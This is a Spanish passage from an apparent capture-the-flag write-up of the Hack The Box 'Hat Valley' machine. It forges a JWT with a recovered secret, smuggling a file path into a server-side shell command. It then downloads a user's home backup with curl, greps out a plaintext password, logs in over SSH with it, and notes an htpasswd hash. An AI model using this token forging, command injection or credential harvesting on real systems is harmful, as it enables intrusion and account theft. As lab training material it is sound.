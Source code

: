 Si pillamos este script:
```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp   # Crea la carpeta backup_tmp en Documents
cd /home/bean	# Se mete en el directorio de bean
tar --exclude='.npm','.cache','.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz . # comprime todo en bean_backup.tar.gz (excluyendo npm cache y vscode)
date > /home/bean/Documents/backup_tmp/time.txt # Escribe la fecha en /backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp # Se va a backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz . # lo comprime todo otra vez en backup/bean_backup_final.tar.gz
rm -r /home/bean/Documents/backup_tmp # emlimina el backup
```
Queremos obtener ese archivo /home/bean/Documents/backup/bean_backup_final.tar.gz. Lo puse en la ruta del script
pero no salia bien, asi que lo he hecho de otra manera.

```python3
import jwt, requests
cookie = jwt.encode({"username": "/' /home/bean/Documents/backup/bean_backup_final.tar.gz '", "iat": 1677407978}, "123beany123", algorithm="HS256")
print(cookie)
```
```console
└─$ curl http://hat-valley.htb/api/all-leave -H "Cookie: token=$(python3 cookie.py)" -o bean_backup_final.tar.gz
└─$ 7z x bean_backup_final.tar.gz 
└─$ 7z x bean_backup_final.tar
└─$ 7z x bean_backup.tar.gz
└─$ 7z x bean_backup.tar
```
Nos ha desplegado una copia de todo el home de este usaurio, solo que con muchas carpetas vacias, para eliminarlas
y quitarnoslas de encima ```for i in $(ls .); do rmdir $i 2>/dev/null; done;``` ya que rdmir solo se plica sobre 
directorios vacios. Queremos encontrar credenciales en ese mar de archivos.
```console
└─$ grep -rIE "password|pass|bean"
.config/xpad/content-DS1ZS1:bean.hill
.config/xpad/content-DS1ZS1:014mrbeanrules!#P
```
```console
└─$ sshpass -p '014mrbeanrules!#P' ssh bean@10.10.11.185
```
--------------------------------------------
## Part 6: Explotacion de script php en el subdominio

Corremos mi [script de reconocimiento](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh), basicamente no encontramos nada
interesante salvo que en esta ruta "/etc/nginx/conf.d/.htpasswd" encuentra las creds "admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1".
Pero no hay manera de romperlas. Aun asi tenemos las de antes 'bean.hill:014mrbeanrules!#P' que probamos a ver si nos sirven en store.
